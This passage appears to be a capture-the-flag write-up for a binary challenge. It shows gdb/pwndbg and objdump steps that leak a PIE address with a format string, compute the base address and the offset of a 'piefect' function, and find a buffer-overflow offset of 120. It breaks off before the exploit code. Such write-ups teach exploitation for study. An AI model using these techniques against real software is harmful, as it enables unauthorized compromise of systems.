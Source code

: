 Run the following in gdb to check if it is an address in the binary:
1. `break main`
2. `run`
3. `c` - continue
4. `%13$p` - send input to get 13th address in the stack
5. press `CTRL + c` to interrupt the program but keep it running (the program MUST remain running to get addresses that can only be shown at runtime)
5. `x <address>`

```sh
pwndbg> x 0x555555400a49
0x555555400a49 <main+116>:      0x000000b8
```

### Step 2
Alright! Now that we have a leaked address, we can calculate for offset of leaked address:

`PIE - leak address = offset of leaked addr`

```sh
pwndbg> x 0x555555400a49 - 0x555555400000
0xa49:  Cannot access memory at address 0xa49
```

`0xa49` is the offset of the leaked address. To calculate base address:

`leaked address - offset of leaked addr = base address`

### Step 3
With this, we just need to find the offset of `piefect` function.

```sh
objdump -d chall | grep piefect
00000000000008ea <piefect>:
```

### Step 4
Now that we have most of the information we need, we just need to find the offset needed to BOF in `decision` function.

Run the following in pwndbg:
1. `break main`
2. `cyclic 200` - copy the De Bruijin Sequence to find our offset
3. send the payload when it says `Alright! I've made up my mind`.
4. you should see that the `RSP` pointer contains `paaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address of `piefect`.

```shell
pwndbg> cyclic -l paaaaaaa
Finding cyclic pattern of 8 bytes: b'paaaaaaa' (hex: 0x7061616161616161)
Found at offset 120
```

### Crafting our exploit

Leak the address first.
